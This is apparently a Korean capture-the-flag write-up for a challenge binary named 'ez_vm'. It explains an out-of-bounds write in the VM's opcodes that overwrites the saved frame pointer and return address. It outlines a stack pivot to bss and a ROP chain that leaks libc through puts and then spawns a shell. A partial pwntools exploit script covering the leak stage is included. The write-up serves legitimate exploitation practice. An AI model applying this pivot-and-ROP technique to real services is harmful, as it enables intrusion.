 opcode = 1이면 전역변수에 특정 값을 넣을 수 있고, opcode = 3이면 2번째 인자 (위의 s에 해당)에서 인덱스를 통해 전역변수에 있는 값을 넣을 수 있는 것을 확인할 수 있다.

이 때, 1번은 5까지 그 이후로는 4까지 인덱스를 사용할 수 있다는 것을 확인할 수 있다.

main함수에서 s는 int s[2]였던 것을 생각하면 여기서 OOB가 일어나 sfp와 ret을 덮을 수 있다는 것을 알 수 있다.

sfp와 ret을 덮을 수 있는 취약점만으로 어떻게 익스할 수 있을까?

main함수의   read(0, buf, 0x100uLL); 를 이용하면 된다.

sfp를 w권한이 있는 bss영역으로 덮은 다음, ret에  저 주소를 넣으면 rbp-0x110에 입력하기 때문에 bss에 fake stack을 만들 수 있으며, read(0, buf, 0x100uLL); 아래에         execute(&vm,memory,&program[i]); 가 있기에, sfp 와 ret을 덮을 수 있는 취약점을 여러번 사용할 수 있다.

또한 read를 통해서 opcode를 입력하는 부분에서 sfp와 ret을 덮는 부분 이후에 값을 쓸 수 있는데, 이를 이용하여 rop를 할 수 있다.

pop rdi, puts_got, puts_plt를 이용하면 puts의 주소를 leak해서 libc_leak이 가능해진다.

그다음 앞의 동작과 유사하게 반복하여 pop rdi, binsh, ret, system 을 이용하여 쉘이 따진다.

 ex.py

```python
from pwn import *
#context.log_level="debug"
puts_plt = 0x401070
puts_got = 0x404018
pop_rdi = 0x00000000004011a3
m= 0x00000000004013b4
bss= 0x0000000000404000
ret=0x000000000040101a
#p=process("./ez_vm")
p=remote("0.0.0.0",31337)
e=ELF("./ez_vm")
libc=ELF("libc.so.6")
pause()
p.recvuntil("opcode: ")

def mov(a,b): # reg[a]=b
    s=b"\x01"
    s+= a.to_bytes(1, byteorder='little')
    s+=b"\x00\x00"
    s+= b.to_bytes(4, byteorder='little')
    
    return s
def store(a,b): # memory[a]=reg[b]
    s=b"\x03"
    s+= a.to_bytes(1, byteorder='little')
    s+=b"\x00\x00"
    s+= b.to_bytes(4, byteorder='little')
    return s
def bug(off1,ret_addr):
    
    c=mov(0,bss+off1)
    c+=store(2,0)
    c+=mov(1,ret_addr)
    c+=store(4,1)
    c=c.ljust(0x70,b"\x00")
    return c
payload=mov(1,0)
payload+=store(5,1)
payload+=bug(0x700,m)
payload+=p64(puts_got)
payload+=p64(puts_plt)
payload+=p64(m)
p.send(payload)
sleep(1)
```